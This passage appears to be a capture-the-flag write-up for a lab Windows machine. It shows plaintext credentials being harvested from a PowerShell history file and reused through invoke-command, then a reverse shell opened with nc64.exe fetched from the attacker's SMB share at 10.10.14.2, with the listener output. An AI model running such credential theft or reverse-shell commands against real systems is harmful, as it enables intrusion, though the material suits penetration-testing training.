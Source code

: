 
-----------------

### Step 2
From the SMB share we found some LAPS documentation, so the privesc probably have something to do with this.
Microsoft’s LAPS is a client side extension which runs a single dll that manages password (``AdmPwd.dll``).
The dll is present in ``C:\Program Files\LAPS\CSE\AdmPwd.dll``, download it.

```powershell
*Evil-WinRM* PS C:\Program Files\LAPS\CSE> download "C:\Program Files\LAPS\CSE\AdmPwd.dll"
```

However we are a low privileged user so we can't poison the dll.. For a quick win check the history and  we find a new set of creds: `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`
And also got code execution as user `svc_deploy`
```powershell
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Replicate to get a new reverse shell.
```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
*Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
timelapse\svc_deploy

➜  /opt impacket-smbserver share . -smb2support

*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {//10.10.14.2/share/nc64.exe 10.10.14.2 4488 -e powershell}

➜  timelapse rlwrap nc -lvnp 4488                                                                                    
listening on [any] 4488 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.152] 52197
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```
